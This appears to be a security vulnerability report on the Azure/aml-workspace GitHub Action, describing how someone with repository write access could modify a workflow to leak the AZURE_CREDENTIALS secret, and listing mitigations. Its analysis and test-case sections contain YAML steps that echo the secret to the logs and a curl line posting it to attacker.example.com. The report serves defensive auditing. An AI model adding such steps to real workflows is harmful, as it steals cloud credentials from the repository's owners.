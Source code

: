 ### Vulnerability List

- Vulnerability Name: Secret Exfiltration via Workflow Modification
- Description:
    1. An attacker gains write access to the GitHub repository where the GitHub Action `Azure/aml-workspace` is used. This could be achieved by compromising a repository collaborator account or exploiting a vulnerability in a GitHub App with write permissions.
    2. The attacker modifies the GitHub Actions workflow YAML file that uses the `Azure/aml-workspace` action.
    3. The attacker adds a new step to the workflow that is designed to exfiltrate the `AZURE_CREDENTIALS` secret. This can be done by:
        - Modifying an existing step to print the `AZURE_CREDENTIALS` environment variable to the workflow logs, which the attacker can later access.
        - Adding a new step that sends the `AZURE_CREDENTIALS` environment variable to an external attacker-controlled server (e.g., using `curl` or `nc`).
    4. When the workflow is triggered (e.g., by a push or pull request), the modified workflow executes, and the `AZURE_CREDENTIALS` secret is exfiltrated.
    5. The attacker obtains the `AZURE_CREDENTIALS` which includes `clientId`, `clientSecret`, `subscriptionId`, and `tenantId`.
    6. Using these credentials, the attacker can now authenticate to Azure and potentially gain unauthorized access to the Azure Machine Learning workspace and other Azure resources within the scope of the service principal associated with `AZURE_CREDENTIALS`.
- Impact:
    - Unauthorized access to the Azure Machine Learning workspace.
    - Potential unauthorized access to other Azure resources if the service principal associated with `AZURE_CREDENTIALS` has broader permissions.
    - Data breach if sensitive data is stored within the Azure Machine Learning workspace or accessible through it.
    - Malicious activities within the Azure subscription, such as creating or deleting resources, training models with malicious data, or deploying rogue models.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - The action itself uses `mask_parameter` to mask the `AZURE_CREDENTIALS` in the GitHub Actions workflow logs. This mitigation is implemented in `/code/code/utils.py` in the `mask_parameter` function and used in `/code/code/main.py` to mask parts of the `azure_credentials`.
    - Input validation is performed on `azure_credentials` using JSON schema validation in `/code/code/main.py` and `/code/code/utils.py` with schema defined in `/code/code/schemas.py`. This helps ensure the input is in the expected format but does not prevent exfiltration if an attacker modifies the workflow.
- Missing Mitigations:
    - **Principle of Least Privilege Documentation**:  Stronger emphasis in the README and documentation on the principle of least privilege for the service principal used for `AZURE_CREDENTIALS`. Users should be guided to grant the service principal only the necessary permissions (ideally scoped to the specific resource group and Azure ML workspace) to minimize the impact of credential compromise. While the README mentions `--role contributor`, it should be highlighted that contributor role might be overly permissive and users should consider custom roles with minimal required permissions.
    - **Workflow Security Hardening Guidance**: Documentation should include best practices for securing GitHub Actions workflows, such as:
        - Regularly auditing repository collaborators and their permissions.
        - Reviewing and auditing workflow changes, especially from contributors with write access.
        - Considering branch protection rules to prevent unauthorized workflow modifications.
        - Using GitHub's security features like dependabot to keep dependencies updated.
- Preconditions:
    - An attacker must gain write access to the GitHub repository where the `Azure/aml-workspace` action is used.
    - The repository must be using the `Azure/aml-workspace` GitHub Action and storing Azure credentials as a GitHub secret named `AZURE_CREDENTIALS`.
- Source Code Analysis:
    1. **Workflow Modification Point**: The vulnerability is not within the action's code itself but in the workflow definition where the action is used. An attacker modifies the workflow YAML file in the repository.
    2. **Secret Access**: GitHub Actions secrets are exposed as environment variables to the actions within a workflow. The `AZURE_CREDENTIALS` secret becomes available as an environment variable, typically named `INPUT_AZURE_CREDENTIALS` based on the `action.yml` definition.
    3. **Exfiltration Step**: The attacker can add a step like this to the workflow YAML after the `Azure/aml-workspace` action step:
        ```yaml
        - name: Exfiltrate Secret
          run: |
            echo "::warning::AZURE_CREDENTIALS=${{ secrets.AZURE_CREDENTIALS }}"
            # Alternatively, send to attacker server:
            # curl -X POST -H "Content-Type: application/json" -d '{"secret":"${{ secrets.AZURE_CREDENTIALS }}"}' https://attacker.example.com/exfiltrate
        ```
        - Using `secrets.AZURE_CREDENTIALS` directly in `run` will print the secret value to the logs, even though it's defined as a secret. While GitHub attempts to mask these, the masking is not foolproof, especially in error messages or if the attacker uses more sophisticated exfiltration techniques. Writing to `::warning::` or `::error::` might bypass some masking attempts. Sending to an external server is a more direct exfiltration method.
    4. **No Code Vulnerability in Action**: The `Azure/aml-workspace` action code (`main.py`, `utils.py`, `schemas.py`) itself does not have a vulnerability that directly leads to secret exposure. The vulnerability lies in the potential for workflow modification and the inherent way GitHub Actions secrets are made available as environment variables. The `mask_parameter` in `/code/code/utils.py` is a mitigation attempt for log exposure, but it doesn't prevent exfiltration through workflow modification.

- Security Test Case:
    1. **Prerequisites**:
        - You need write access to a GitHub repository that uses the `Azure/aml-workspace` action.
        - The repository must have the `AZURE_CREDENTIALS` secret configured.
        - You need an attacker-controlled server to receive exfiltrated data (for the more direct exfiltration test). For simpler demonstration, observing workflow logs is sufficient.
    2. **Steps**:
        - Fork or create a repository that uses the `Azure/aml-workspace` action and has `AZURE_CREDENTIALS` configured.
        - Modify the workflow YAML file (e.g., `.github/workflows/main.yml`) to add an exfiltration step after the `Azure/aml-workspace` action step:
            ```yaml
            - uses: Azure/aml-workspace@v1
              id: aml_workspace
              with:
                azure_credentials: ${{ secrets.AZURE_CREDENTIALS }}

            - name: Exfiltrate Secret to Logs
              run: echo "::warning::EXFILTRATED_SECRET=${{ secrets.AZURE_CREDENTIALS }}"
            ```
        - Commit and push the modified workflow to the repository.
        - Trigger the workflow (e.g., by pushing a dummy commit or manually triggering it).
        - Go to the Actions tab in the GitHub repository and view the logs for the workflow run that executed the modified workflow.
        - Observe the logs for the "Exfiltrate Secret to Logs" step. You should see a warning message with the `AZURE_CREDENTIALS` content printed, or at least parts of it, despite GitHub's secret masking. If sending to an external server was used, check the attacker-controlled server logs for the received secret.
    3. **Expected Result**:
        - The `AZURE_CREDENTIALS` secret (or parts of it) is visible in the workflow logs, demonstrating successful exfiltration. If an external server was used, the secret is received on the attacker's server.
    4. **Cleanup**:
        - Remove the exfiltration step from the workflow YAML file and commit the changes to remediate the vulnerability in the test repository.